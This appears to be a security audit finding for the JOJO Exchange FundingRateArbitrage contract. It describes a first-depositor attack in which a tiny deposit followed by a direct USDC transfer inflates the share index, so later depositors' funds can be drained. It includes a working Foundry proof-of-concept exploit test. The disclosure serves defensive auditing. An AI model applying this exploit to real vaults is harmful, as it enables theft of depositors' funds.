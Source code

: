 Prehistoric Sand Turtle

high

# The first depositor of FundingRateArbitrage contract can drain all users' USDC

## Summary

A malicious first depositor can benefit from subsequent deposits, causing later depositors to lose part or all of their funds to the attacker.

## Vulnerability Detail

The `getIndex()` function is used to return the ratio between `netValue()` and `totalEarnUSDCBalance`. If the `totalEarnUSDCBalance` is zero, it returns a default value of `1e18`. Otherwise, it computes the index by dividing the net value of the system by the total earned USDC balance.

```solidity=98
function getIndex() public view returns (uint256) {
    if (totalEarnUSDCBalance == 0) {
        return 1e18;
    } else {
        return SignedDecimalMath.decimalDiv(getNetValue(), totalEarnUSDCBalance);
    }
}
```

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/FundingRateArbitrage.sol#L98-L104

Anyone can call the `deposit()` function to increase the `totalEarnUSDCBalance` value. Subsequently, when the `getIndex()` function is invoked, it returns the ratio between `getNetValue()` and `totalEarnUSDCBalance()`.

```solidity=258
function deposit(uint256 amount) external {
    require(amount != 0, "deposit amount is zero");
    uint256 feeAmount = amount.decimalMul(depositFeeRate);
    if (feeAmount > 0) {
        amount -= feeAmount;
        IERC20(usdc).transferFrom(msg.sender, owner(), feeAmount);
    }
    uint256 earnUSDCAmount = amount.decimalDiv(getIndex());
    IERC20(usdc).transferFrom(msg.sender, address(this), amount);
    JOJODealer(jojoDealer).deposit(0, amount, msg.sender);
    earnUSDCBalance[msg.sender] += earnUSDCAmount;
    jusdOutside[msg.sender] += amount;
    totalEarnUSDCBalance += earnUSDCAmount;
    require(getNetValue() <= maxNetValue, "net value exceed limitation");
    uint256 quota = maxUsdcQuota[msg.sender] == 0 ? defaultUsdcQuota : maxUsdcQuota[msg.sender];
    require(earnUSDCBalance[msg.sender].decimalMul(getIndex()) <= quota, "usdc amount bigger than quota");
    emit DepositToHedging(msg.sender, amount, feeAmount, earnUSDCAmount);
}
```

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/FundingRateArbitrage.sol#L258-L275

By transferring USDC directly to the contract, these funds are summed up as the net value in the system, resulting in an increase in the net value.

```solidity=87
function getNetValue() public view returns (uint256) {
    uint256 jusdBorrowed = IJUSDBank(jusdBank).getBorrowBalance(address(this));
    uint256 collateralAmount = IJUSDBank(jusdBank).getDepositBalance(collateral, address(this));
    uint256 usdcBuffer = IERC20(usdc).balanceOf(address(this));
    uint256 collateralPrice = IJUSDBank(jusdBank).getCollateralPrice(collateral);
    (int256 perpNetValue,,,) = JOJODealer(jojoDealer).getTraderRisk(address(this));
    return
        SafeCast.toUint256(perpNetValue) + collateralAmount.decimalMul(collateralPrice) + usdcBuffer - jusdBorrowed;
}
```

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/FundingRateArbitrage.sol#L87-L95


With an incorrectly high net value, the `amount.decimalDiv(getIndex());` at line 265 will experience a loss of precision,  requiring a substantial deposit of a huge amount to gain some `earnUSDCBalance` for the depositor.

```solidity=258
function deposit(uint256 amount) external {
    require(amount != 0, "deposit amount is zero");
    uint256 feeAmount = amount.decimalMul(depositFeeRate);
    if (feeAmount > 0) {
        amount -= feeAmount;
        IERC20(usdc).transferFrom(msg.sender, owner(), feeAmount);
    }
    uint256 earnUSDCAmount = amount.decimalDiv(getIndex());
    IERC20(usdc).transferFrom(msg.sender, address(this), amount);
    JOJODealer(jojoDealer).deposit(0, amount, msg.sender);
    earnUSDCBalance[msg.sender] += earnUSDCAmount;
    jusdOutside[msg.sender] += amount;
    totalEarnUSDCBalance += earnUSDCAmount;
    require(getNetValue() <= maxNetValue, "net value exceed limitation");
    uint256 quota = maxUsdcQuota[msg.sender] == 0 ? defaultUsdcQuota : maxUsdcQuota[msg.sender];
    require(earnUSDCBalance[msg.sender].decimalMul(getIndex()) <= quota, "usdc amount bigger than quota");
    emit DepositToHedging(msg.sender, amount, feeAmount, earnUSDCAmount);
}
```

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/FundingRateArbitrage.sol#L258-L275

The first depositor could deposit only 1 wei of USDC, manipulate the net value by directly transferring some small amount of USDC to the contract, and then deposit a substantial amount of USDC to gain the `earnUSDCBalance`.

When the next depositor makes a deposit, their `earnUSDCBalance` value will encounter precision loss, and the USDC will be aggregated as part of the net value of the system. Consequently, the attacker will profit from this USDC.

Furthermore, the attacker can easily front-run this transaction to execute the attack.

Please add this test to `FundingRateArbitrageTest.t.sol`  to showcase the exploit.

```solidity
forge test --mt test_firstDepositorStealOtherUserFund -vv
```

```solidity
function test_firstDepositorStealOtherUserFund() public {

    /// setWithdrawSettleFee
    vm.startPrank(Owner);
    fundingRateArbitrage.setWithdrawSettleFee(2e6);
    vm.stopPrank();

    /// mint for Alice 10,000 USDC and mint for Bob 100 USDC
    USDC.mint(address(alice), 10_000e6);
    USDC.mint(address(bob), 100e6);

    uint256 aliceBalanceBefore = USDC.balanceOf(address(alice));

    vm.startPrank(alice);
    USDC.approve(address(fundingRateArbitrage), 10_000e6);

    /// Alice makes her initial deposit to ensure that the totalEarnUSDCBalance is not equal to zero.
    fundingRateArbitrage.deposit(1);

    /// Alice transfer 100 USDC to the FundingRateArbitrage contract directly to increase getNetValue()
    USDC.transfer(address(fundingRateArbitrage), 100e6);
    uint aliceAmt = 8_000e6; // 8,000 USDC

    /// Alice deposited with huge amount of USDC
    fundingRateArbitrage.deposit(aliceAmt);

    /// Request for withdraw
    jojoDealer.requestWithdraw(alice, 0, aliceAmt);
    vm.warp(100);
    jojoDealer.executeWithdraw(alice, alice, false, "");

    jusd.approve(address(fundingRateArbitrage), aliceAmt);

    uint256 index = fundingRateArbitrage.requestWithdraw(aliceAmt);
    vm.stopPrank();

    uint bobAmt = 100e6; // 100 USDC
    vm.startPrank(bob);
    USDC.approve(address(fundingRateArbitrage), bobAmt);

    /// Bob calls deposit() normally with 100 USDC
    fundingRateArbitrage.deposit(bobAmt);
    vm.stopPrank();

    /// Permit withdraw request by Owner
    vm.startPrank(Owner);
    uint256[] memory indexs = new uint256[](1);
    indexs[0] = index;
    fundingRateArbitrage.permitWithdrawRequests(indexs);
    vm.stopPrank();


    /// Now, the 100 USDC in Bob's FundingRateArbitrage contract has been drained to Alice
    uint256 aliceBalanceAfter = USDC.balanceOf(address(alice));
    uint256 fundingRateArbitrageBalance = USDC.balanceOf(address(fundingRateArbitrage));

    assertGt(aliceBalanceAfter, aliceBalanceBefore);
    assertEq(fundingRateArbitrageBalance, 0);

    console.log("Alice's USDC:", USDC.balanceOf(address(alice)));
    console.log("Bob's USDC:", USDC.balanceOf(address(bob)));
    console.log("FundingRateArbitrage's USDC:", USDC.balanceOf(address(fundingRateArbitrage)));
    console.log("totalEarnUSDC:", fundingRateArbitrage.totalEarnUSDCBalance());
}
```

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/test/impl/FundingRateArbitrageTest.t.sol

## Impact

The first depositor has the ability to take away a portion or all of the USDC that other users have deposited into the `FundingRateArbitrage` contract.

## Code Snippet

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/FundingRateArbitrage.sol#L87-L95

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/FundingRateArbitrage.sol#L98-L104

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/FundingRateArbitrage.sol#L258-L275

## Tool used

Manual Review

## Recommendation

I suggest the team be the first depositor when deploying the contract.